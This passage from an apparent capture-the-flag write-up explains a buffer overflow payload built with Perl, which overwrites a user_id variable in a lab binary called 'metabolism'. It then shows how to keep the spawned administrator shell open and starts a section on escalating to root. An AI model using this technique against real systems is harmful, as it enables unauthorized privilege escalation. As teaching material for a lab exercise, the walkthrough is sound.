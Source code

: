 **Explanation** :

Let's break down the exploit:

- `perl -e`: This part invokes Perl and tells it to interpret the following code directly from the command line.
- `'print "3\n3\n3\n" . "A"x34 . "\xec\x03\x00\x00" . "\n"'` : This is the Perl code that gets executed.
  - `3\n3\n3\n` : This part will be fed to weight, height, and age, this way we get directly to gender
  - `"A"x34` : we fill the gender buffer with 34 characters,this way we reach the `user_id` variable.
  - `"\xec\x03\x00\x00"` : this is the representation of `1004` in little-endian byte order:
    - We take the hexadecimal value of 1004 : `0x03ec`
    - We represent it in 4 bytes : `0x000003ec`
    - Each byte represent two chars : `00,00,03,ec`
    - To write that in little-endian, we just reverse each byte : `ec,03,00,00`
    - Now we write it as bytes, so `perl` can understand it: `\xec\x03\x00\x00`
  - `"\n"` To send the line

Let's feed the executable our payload.

```bash
mystery101@fitness101:~$ cat payload | ./metabolism 
Welcome administrator, you may find this program in your repository, you can adjust it as you like!
mystery101@fitness101:~$ 
```

It's kind of working, but we dont get a shell...

**But why?**

The program takes input from the output of our command, and when the program is done, it closes the pip.

But our program executes a shell, so we need that shell to stay open so we can interact with it

To get around this problem, we can simply open the standard input in `cat`, this way when the program gets executed, the pip stays open.

```bash
mystery101@fitness101:~$ cat payload - | ./metabolism 
Welcome administrator, you may find this program in your repository, you can adjust it as you like!
whoami
administrator
python3 -c 'import pty; pty.spawn("/bin/bash")'
administrator@fitness101:/home/mystery101$ 
```

### 2 - From administrator to root

After gaining access to administrator, let's head to `/home/administrator`

```bash
pwd
/home/administrator
ls -l
total 12
-rw-r--r-- 1 root          root            31 Dec  9 12:58 flag2.txt
-rwxr-xr-x 1 administrator administrator 1520 Dec  9 15:50 metabolism.c
drwxr-xr-x 2 administrator administrator 4096 Dec  9 17:38 programs
```
